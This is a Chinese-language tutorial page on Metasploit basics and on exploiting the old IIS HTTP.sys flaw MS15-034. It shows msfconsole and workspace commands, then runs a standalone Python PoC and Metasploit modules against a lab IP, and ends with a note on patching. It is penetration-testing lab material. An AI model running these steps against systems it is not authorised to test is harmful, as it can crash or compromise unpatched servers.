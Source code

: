 ```yaml
---
layout: default
title: 使用msf利用ms15-034
---
```




# msf基本命令

## 进入、退出

```bash
cd /opt/metasploit-framework/
bundle exec msfconsole # 进入msf
quit # 退出msf
back # 返回上一级
# exit 退出bash终端、退出cmd终端
```

## 查看工作空间

```bash
workspace # 查看当前工作空间
workspace -a target1   # 新建
workspace -d target1   # 删除
workspace target1      # 切换
hosts # 主机列表
services # 服务列表
loot # 战利品
```

# 使用独立poc验证ms-15-034

```bash
# 网上找poc
# 理解原理了，可以改poc或者自己写poc
# poc使用和目标系统匹配的语言编写
cd /root/vulner/ms15-034/
# 修改poc 第5行IPaddress为目标IP
python2 cve-2015-1635.poc
# 这个poc是python2写的
```

# 使用msf利用ms15-034

```bash
cd /opt/metasploit-framework/
bundle exec msfconsole
search ms15-034
# exposure 批露
# disclosure 暴露
use 1
set rhosts 172.20.0.7
show options
run
back
search ms15-034
use 0
set rhosts 172.20.0.7
show options
run
```

# 给ms15-034安装补丁

> * 访问微软catalog update补丁平台》搜索ms15-034》下载


